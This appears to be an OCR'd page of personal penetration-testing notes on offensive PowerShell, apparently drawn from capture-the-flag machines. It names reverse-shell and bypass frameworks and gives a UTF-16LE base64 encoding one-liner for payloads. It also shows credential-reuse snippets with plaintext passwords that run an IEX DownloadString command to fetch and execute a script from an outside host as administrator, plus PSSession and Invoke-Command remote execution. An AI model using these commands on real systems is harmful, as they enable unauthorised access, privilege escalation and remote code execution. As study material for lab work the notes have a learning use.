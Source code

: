 # powershell

bypass tool&#x20;

github.com/trustedsec/unicorn



framework   nishang   powersploit

reverse shell powercat



avoid any possible quotation and encoding issues

little endian UTF-16 encoding version.

```
iconv -f ASCII -t UTF-16LE powershell.txt | base64 | tr -d "\n"
```

hash

`get-filehash`

password reuse    need remote manager priv in net user

```
password reuse   need remote manager priv

$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('administrator',$passwd) 
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.17.114/1.ps1')" -Credential $creds
or
new-pssession -computername . -credential $cred  // enter-pssession -computer arkham -credential $cred
enter-pssession 1

$user = "Sniper\Chris"
$pass = "36mEAhz/B8xQ~2VM"
$secstr = New-Object -TypeName System.Security.SecureString
$pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $secstr
Invoke-Command -ScriptBlock { whoami } -Credential $cred -Computer localhost
sniper\chris

```
